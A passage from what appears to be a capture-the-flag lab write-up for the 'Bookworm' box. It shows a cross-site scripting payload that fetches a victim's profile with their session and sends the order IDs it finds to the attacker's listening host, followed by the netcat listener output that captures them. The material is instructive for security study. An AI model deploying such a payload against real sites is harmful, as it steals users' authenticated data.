 ```
    </tr>
    
    <tr>
      <th scope="row">Order #407</th>
      <td>Tue Jan 16 2024 17:56:24 GMT+0000 (Coordinated Universal Time)</td>
      <td>£40</td>
      <td>
        <a href="/order/407">View Order</
      </td>
    </tr>
    
  </tbody>
</table>

```

#### Order Page

There’s a note on the `/basket` page about being able to download earlier orders as e-books:

![image-20240116131019079](/img/image-20240116131019079.png)

To see what that looks like, I’ll check out these orders, updating my script first to:

```

fetch('/profile', {credentials: "include"})
.then((resp) => resp.text())
.then((resptext) => {
  var regex = /\/order\/\d+/g;
  while ((match = regex.exec(resptext)) !== null) {
    fetch("http://10.10.14.6" + match);
  };
});

```

I’ll run `nc -klnvp 80` so that it stays open and handles multiple requests on 80. When this executes, I get the IDs from the target profile:

```

oxdf@hacky$ nc -lnkvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.11.215 44720
GET /order/16 HTTP/1.1
Host: 10.10.14.6
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36
Accept: */*
Origin: http://bookworm.htb
Referer: http://bookworm.htb/
Accept-Encoding: gzip, deflate

Connection received on 10.10.11.215 44722
GET /order/17 HTTP/1.1
Host: 10.10.14.6
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36
Accept: */*
Origin: http://bookworm.htb
Referer: http://bookworm.htb/
Accept-Encoding: gzip, deflate

```
